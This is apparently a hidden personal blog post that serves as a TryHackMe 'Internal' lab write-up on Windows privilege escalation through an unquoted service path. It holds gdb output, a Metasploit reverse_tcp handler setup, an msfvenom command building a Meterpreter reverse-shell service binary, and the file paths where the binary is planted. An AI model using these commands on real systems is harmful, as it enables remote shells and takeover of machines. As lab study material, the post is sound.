 ```yaml
---
layout: post
title:  "Tryhackme Internal"
date:   2022-12-01 10:02:59 +0100
categories: jekyll update
hidden: true
---
```


I found some powershell logs that downloaded flag.txt and Service.exe
It took even longer for me to find the Service that Service.exe(duh?) actually runs.


But in the spirity of Try harder I never gave up.
I tried to debug the Service.exe with gdb using a go addons: and I got this.
```
kastberg@5CD9245KLN:/mnt/c/Users/robin.kastberg/tryhackme$ fg
gdb Service.exe -d /usr/share/go-1.15/src/runtime/


(gdb)
(gdb) x/i $eip
Value can't be converted to integer.
(gdb) run
Starting program: /mnt/c/Users/robin.kastberg/tryhackme/Service.exe
add-symbol-file-from-memory not supported for this target
[Inferior 1 (process 8067) exited with code 072]
(gdb) gdb main
Undefined command: "gdb".  Try "help".
(gdb) break main
Function "main" not defined.
Make breakpoint pending on future shared library load? (y or [n]) n
(gdb) l
1       : No such file or directory.
(gdb) list
1       in
(gdb) l main.main
3       C:/Users/nightwolf/go/src/unquoted-service-binary-service-http-server.go:
```

unquoted service binary server..
Hmmmm

And I found my exploit. The service startup path wasn't quoted. Somehow I missed this in services.msc and in registry and in everywhere.
```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.60.157
set LPORT 4444
```


I had some problems generating a payload that worked fine. I think somehting to do with x86 and x64 mix or something.
Finally got the thing below working with -f exe, but it died after a few seconds. So -f exe-service it is.
```
msfvenom --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.60.157 LPORT=4444 -f exe-service -o ServiceX2.exe
```

Put this at "C:\Program Files\Development Files\Devservice Files\Service.exe"
Put this at "C:\Program Files\Development Files\Devservice.exe"
